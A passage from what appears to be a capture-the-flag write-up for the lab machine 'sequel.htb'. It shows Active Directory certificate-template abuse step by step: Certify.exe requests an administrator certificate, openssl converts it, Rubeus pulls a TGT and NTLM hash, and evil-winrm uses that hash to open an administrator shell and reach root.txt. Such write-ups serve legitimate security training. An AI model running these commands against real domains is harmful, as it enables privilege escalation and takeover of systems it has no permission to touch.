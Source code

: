 
## Exploitation

### Certificate: Localadmin

I'll now generate a new certificate using certify.exe for the user Administrator

```powershell
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```

Convert the certificate for later usage with rubeus

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

After transferring the converted certificate to my target I use it to generate a TGT and display the NTLM hash to use it with evil-winrm

```powershell
.\Rubeus.exe asktgt /user:administrator /certificate:admin.pfx /getcredentials
```

## Administrator

```bash
evil-winrm -H "CENSORED" -u "administrator" -i 10.10.11.202
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         3/7/2023   1:34 PM             34 root.txt
```